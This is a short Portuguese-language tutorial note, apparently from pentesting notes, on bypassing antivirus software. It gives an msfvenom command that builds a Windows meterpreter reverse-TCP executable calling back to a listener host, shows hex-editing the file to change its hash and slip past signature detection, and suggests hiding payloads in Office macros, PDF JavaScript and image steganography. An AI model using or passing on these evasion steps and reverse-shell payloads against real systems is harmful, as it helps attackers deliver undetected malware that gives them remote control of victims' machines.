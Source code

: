 # Bypass de antivirus

1. **Escrever seus próprios código.** Isso torna seu payload único, tornando-o mais difícil de ser detectado.
2. **Usar ferramentas novas.** Ferramentas ainda não conhecidas pelos antivirus tem maoir probabilidade de gerar código com baixa detecção.
3. **Modificar o payload gerado.** Uma vez modificado, diminiu ligeramente a possibilidade de ser detectado. exemplo:
  * Gere o payload:
 ```
 $ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o shell.exe`

 $ md5sum shell.exe                       
 fa90bda8a378fa59246eee7f2f35337a  shell.exe
 ```
  * Edite o arquivo, alterando partes modificáveis como textos.<br>
 ```
 $ hexeditor shell.exe
 ```
![Hexeditor]()
 ```
 $ md5sum shell.exe          
 aeaae1490afd16ed1e9ae60a1e6c95ca  shell.exe
 ```
> Observamos que o hash do arquivo mudou, aumentando a possibilidade de não detecção, uma vez que provavelmente não estará na base de dados dos antivirus.

4. Embutir o payload em arquivos de trabalho
  - **Office**, através de código malicioso em **VBA**.
    - Evil clip
  - **PDF**, através de código malicioso em **JavaScript**.
    - Responder, Empire, Cobalt Strike
  - ***Imagens***, através de steganografia, ccódigo malicioso nos **metadados** ou **bits de imagem**.
    - Steghide, ExIfTool

